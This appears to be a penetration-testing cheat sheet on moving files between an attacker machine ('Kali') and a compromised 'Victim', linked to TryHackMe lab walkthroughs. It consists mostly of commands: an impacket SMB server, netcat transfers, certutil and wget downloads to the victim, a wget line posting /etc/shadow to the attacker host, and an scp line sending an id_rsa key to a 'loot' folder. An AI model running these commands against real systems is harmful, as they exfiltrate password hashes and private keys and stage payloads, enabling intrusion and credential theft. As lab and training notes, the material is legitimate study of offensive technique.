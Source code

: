 # Transferring Files

## **SMB**

**Examples**

[#registry-hives](../walkthroughs/tryhackme/credentials-harvesting.md#registry-hives "mention")

**Kali**

```
python3.9 /opt/impacket/examples/smbserver.py -smb2support -username THMBackup -password CopyMaster555 public share
```

**Victim**

```
copy C:\File\to\tranfer.exe \\$KALI\public\
```

## Netcat

### Send File

**Kali(receiving)**

```
nc -l -p 1234 > user.jpg
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < user.jpg
```

## wget

### Download File

**Victim (receiving)**

```
wget http://$VICTIM/$FILE

#From non-strandard port
wget http://$VICTIM:81/$FILE
```

### Send File

**Examples**

[wgel-ctf.md](../walkthroughs/tryhackme/wgel-ctf.md "mention")

**Kali(receiving)**

```
nc -lvnp 4444
```

**Victim(sending)**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
```



## **certutil**

**Example**

[retro.md](../walkthroughs/tryhackme/retro.md "mention")[relevant.md](../walkthroughs/tryhackme/relevant.md "mention")

**Kali**

```
python2 -m SimpleHTTPServer 82
```

**Victim**&#x20;

```
certutil -urlcache -f http://$KALI:82/$FILE $FILE
```



## SCP

### Download File

**Victim**

```
scp id_rsa root@$KALI:/root/loot
```

## xfreerdp

**Example**

[windows-privesc-arena.md](../walkthroughs/tryhackme/windows-privesc-arena.md "mention")

Login via RDP and setup shared drive

**Kali**

```
xfreerdp +clipboard /u:user /p:password321 /cert:ignore /v:$VICTIM /size:1024x568  /drive:kali,/root/
```

**Victim**

```
copy "C:\Users\User\Desktop\Tools\Source\windows_service.c" \\tsclient\kali\windows_service.c
```



## Share Files

### PHP

**Kali**

```
php -S 0.0.0.0:82
```

### **Python2**

**Kali**

```
python2 -m SimpleHTTPServer 82
```

### **Python3**

**Kali**

```
python3 -m http.server 82
```






